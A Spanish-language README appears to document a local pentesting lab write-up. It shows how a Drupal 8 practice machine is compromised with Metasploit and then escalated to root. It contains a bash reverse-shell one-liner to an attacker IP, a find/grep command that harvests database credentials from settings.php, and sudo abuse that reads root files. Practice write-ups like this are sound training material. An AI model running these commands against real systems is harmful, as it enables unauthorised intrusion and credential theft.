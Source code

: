# Lab de Pentesting: Explotación y escalada de privilegios en máquina findyourstyle

Este repositorio documenta paso a paso cómo comprometer una máquina con Drupal 8 mediante un exploit conocido y escalar privilegios hasta obtener acceso root.

---

## Resumen

El objetivo fue identificar servicios expuestos, reconocer la tecnología del sitio, explotar una vulnerabilidad crítica en Drupal y, finalmente, escalar privilegios mediante análisis del sistema y abuso de binarios con privilegios.

---

## Herramientas utilizadas

- `ping`
- `nmap`
- `whatweb`
- `gobuster`
- `msfconsole`
- `netcat`


---

## Pasos realizados

### 1. Verificar conectividad con ping

    ping -c 1 172.17.0.2

![Ping a la IP](screenshots/ping.PNG)

Se comprobó que la máquina objetivo está activa.

---

### 2. Escaneo de puertos

        nmap -sC -sV -p- 172.17.0.2 -oN scan.txt

![puertos](screenshots/snaceoPuertos.PNG)


Se identificó que el sitio web utiliza **Drupal 8** en el puerto 80.

---

### 4. Enumeración de directorios con Gobuster

    gobuster dir -u http://172.17.0.2/ -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt

![directorios](screenshots/enumerarDirectorios.PNG)

Se descubrieron los directorios:

- `/user`
- `/admin`

---

### 5. Explotación con Metasploit

Iniciamos Metasploit y buscamos exploits para Drupal 8:

    msfconsole
    search drupal 8



Y encontramos algunos exploits,seleccionamos el exploit:

![metasploit](screenshots/metasploit.PNG)

    use 0
    show options
    set RHOSTS 172.17.0.2
    run

Se logró obtener una **sesión meterpreter** activa.

![Ping a la IP](screenshots/meterpreter.PNG)

---

### 6. Escalada a shell interactiva

Ejecutamos:

    shell

En la máquina atacante, se prepara el listener:

    sudo nc -lvnp 444

Y en la máquina víctima:

    bash -c "bash -i >& /dev/tcp/172.17.0.1/444 0>&1"

![nc](screenshots/netcat.PNG)

---

### 7. Búsqueda de credenciales en settings.php

Visitamos HackTricks y usamos el siguiente comando:

    find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null

![hacktricks](screenshots/hacktricks.PNG)
![user](screenshots/hacktricks.PNG)

Esto nos permitió localizar posibles credenciales de base de datos y usuarios del sistema.

---

### 8. Intento de login con usuario encontrado

![ballenita](screenshots/suBallenita.PNG)

Se prueba acceso con usuario `ballenita` pero no tiene permisos sudo. Se intenta un workaround (acceso sin TTY):

    script /dev/null -c "su ballenita"

![entrando](screenshots/entrando.PNG)

Funciona correctamente.

---

### 9. Abuso de binarios con privilegios

Se verifica que `ballenita` puede ejecutar como root:

    sudo /bin/ls /root

Se encuentra el archivo `secretitomaximo.txt` y se lee su contenido con:

    sudo /bin/grep '' /root/secretitomaximo.txt

Se obtiene una posible contraseña de root.

---

### 10. Acceso root

Se prueba la contraseña obtenida y se confirma el acceso con privilegios de root.

---

## Resultados finales

- Acceso root conseguido mediante explotación de Drupal 8.
- Escalada de privilegios exitosa utilizando binarios permitidos y acceso a archivos sensibles.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
